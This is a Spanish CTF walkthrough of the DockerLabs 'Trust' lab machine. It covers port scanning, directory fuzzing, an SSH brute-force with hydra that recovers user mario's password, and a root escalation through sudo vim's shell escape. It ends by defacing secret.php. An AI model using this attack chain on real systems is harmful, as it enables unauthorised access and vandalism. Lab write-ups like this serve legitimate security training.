


# Trust - DockerLabs

## Enumeración

Vamos a enumerar con nmap para ver qué puertos están abiertos y qué servicios corren en ellos.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

```bash
nmap -sCV -p22,80 172.17.0.2

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u10 (protocol 2.0)
| ssh-hostkey: 
|   256 5e:b9:df:0a:50:2a:f0:91:1a:eb:98:0b:48:48:65:7a (ECDSA)
|_  256 25:57:77:23:b1:fc:32:bf:af:02:f6:1e:50:ad:0c:8c (ED25519)
80/tcp open  http    PHP cli server 5.5 or later
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Estamos ante una máquina debian con un servidor web corriendo en el puerto 80 y un servicio SSH en el puerto 22. El servidor web es un servidor PHP.

Vamos a enumerar directorios en el servidor web con gobuster

```bash
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 10701

# No nos sale nada intentamos este:

❯ ffuf -u http://172.17.0.2/FUZZ.php -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt

secret                  [Status: 200, Size: 927, Words: 328, Lines: 40, Duration: 5ms]
```

Supongo que esta es la flag, vamos a abrirla en el navegador y nos sale un mensaje que dice:

```
Hola Mario,

Esta web no se puede hackear
```



Ahora vamos a enumerar el servicio SSH para ver si podemos encontrar alguna vulnerabilidad. Vamos a usar searchsploit para buscar vulnerabilidades en OpenSSH 9.2p1.

```bash
searchsploit OpenSSH 9.2p1
```

```bash
whatweb http://172.17.0.2/secret.php
http://172.17.0.2/secret.php [200 OK] Country[RESERVED][ZZ], HTML5, IP[172.17.0.2], PHP[8.2.31], Title[¡Secreto!], X-Powered-By[PHP/8.2.31]
```

Interceptamos con burpsuite:

```
GET /secret.php HTTP/1.1

Host: 172.17.0.2

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Upgrade-Insecure-Requests: 1

Priority: u=0, i
```

## Fuerza bruta SSH

Voy a probar fuerza bruta con el usuario `Mario` para ver si podemos acceder al servicio SSH. Para ello, vamos a usar `hydra`.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4

[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
```

Por fin, llevo un montón porque no caía en que el usuario era `mario` en minúsculas. 

## Escalada de privilegios

```bash
mario@7ee6e1828fdd:~$id                                                              
uid=1000(mario) gid=1000(mario) groups=1000(mario)

cat /etc/sudoers                                                                                                                                                 
cat: /etc/sudoers: Permission denied
mario@7ee6e1828fdd:~$ sudo -l                                                                                                                                                          
[sudo] password for mario: 
Matching Defaults entries for mario on 7ee6e1828fdd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 7ee6e1828fdd:
    (ALL) /usr/bin/vim
```

Vamos a sacarnos una shell como root con el binario `vim`

```bash
sudo vim hola
```

En vim ponemos `:set shell=/bin/bash` + esc + `:shell`

```bash
:shell
root@7ee6e1828fdd:/home/mario# whoami
root
```

Estuve buscando y no encontré ninguna flag, sin embargo, cambié el secret.php.

```bash
root@7ee6e1828fdd:~# cat /var/www/html/secret.php
```

```php
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>¡Secreto!</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f0f0f0;
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }
        .container {
            text-align: center;
            background-color: #fff;
            padding: 20px;
            border-radius: 10px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }
        h1 {
            color: #333;
        }
        p {
            color: #666;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>HACKEADO,</h1>
        <p>HACKEDDDDDD.</p>
    </div>
</body>
</html>
```

